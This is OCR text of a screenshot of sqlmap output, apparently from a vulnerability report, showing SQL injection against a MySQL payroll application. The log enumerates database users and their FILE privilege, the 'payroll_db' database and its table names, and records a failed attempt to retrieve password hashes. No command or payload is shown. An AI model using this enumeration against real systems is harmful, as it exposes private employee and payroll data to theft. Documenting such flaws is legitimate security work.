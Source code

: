 [13:38:35] [INFO] fetching database users password hashes
[13:38:35] [INFO] fetching database users
[13:38:35] [INFO] fetching number of password hashes for user 'remo'
[13:38:35] [INFO] retrieved: 
[13:38:35] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:38:35] [INFO] retrieved: 
[13:38:35] [WARNING] unable to retrieve the number of password hashes for user 'remo'
[13:38:35] [ERROR] unable to retrieve the password hashes for the database users
[13:38:35] [INFO] fetching database users privileges
[13:38:35] [INFO] fetching database users
[13:38:35] [INFO] fetching number of privileges for user 'remo'
[13:38:35] [INFO] retrieved: 1
[13:38:37] [INFO] fetching privileges for user 'remo'
[13:38:37] [INFO] retrieved: FILE
database management system users privileges:
[*] %remo% [1]:    <------ User
    privilege: FILE

[13:38:50] [WARNING] on MySQL the concept of roles does not exist. sqlmap will enumerate privileges instead
[13:38:50] [INFO] fetching database users privileges
database management system users roles:
[*] %remo% [1]:
    role: FILE

[13:38:50] [INFO] fetching database names
[13:38:50] [INFO] fetching number of databases
[13:38:50] [INFO] resumed: 2
[13:38:50] [INFO] resumed: information_schema
[13:38:50] [INFO] resumed: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db

[13:38:50] [INFO] sqlmap will dump entries of all tables from all databases now
[13:38:50] [INFO] fetching tables for databases: 'information_schema, payroll_db'
[13:38:50] [INFO] fetching number of tables for database 'payroll_db'
[13:38:50] [INFO] retrieved: 11
[13:38:53] [INFO] retrieved: position
[13:39:27] [INFO] retrieved: employee
[13:39:57] [INFO] retrieved: department
[13:40:35] [INFO] retrieved: payroll_items
[13:41:27] [INFO] retrieved: attendance
[13:42:01] [INFO] retrieved: employee_deductions
[13:43:15] [INFO] retrieved: employee_allowances
[13:44:00] [INFO] retrieved: users
[13:44:17] [INFO] retrieved: deductions
[13:44:54] [INFO] retrieved: payroll
[13:45:23] [INFO] retrieved: allowances
[13:45:58] [INFO] fetching number of tables for database 'information_schema'
[13:45:58] [INFO] retrieved: 78
[13:46:04] [INFO] retrieved: ALL_PLUGINS
[13:46:50] [INFO] retrieved: APPLICABLE_ROL
[13:47:44] [ERROR] invalid character detected. retrying..
[13:47:44] [WARNING] increasing time delay to 2 seconds
ES
[13:47:56] [INFO] retrieved: CHARACTER_SETS
[13:49:22] [INFO] retrieved: CHECK_CONSTRAINTS
[13:51:07] [INFO] retrieved: COLLATIONS
[13:52:15] [INFO] retrieved: COLLATION_CHARACTER_SET_APPLICABILITY
[13:55:36] [INFO] retrieved: COLUMNS
[13:56:11] [INFO] retrieved: COLUMN_PRIVILEGES
[13:57:41] [INFO] retrieved: ENABLED_ROLhS    
[13:59:06] [INFO] retrieved: ENGINES
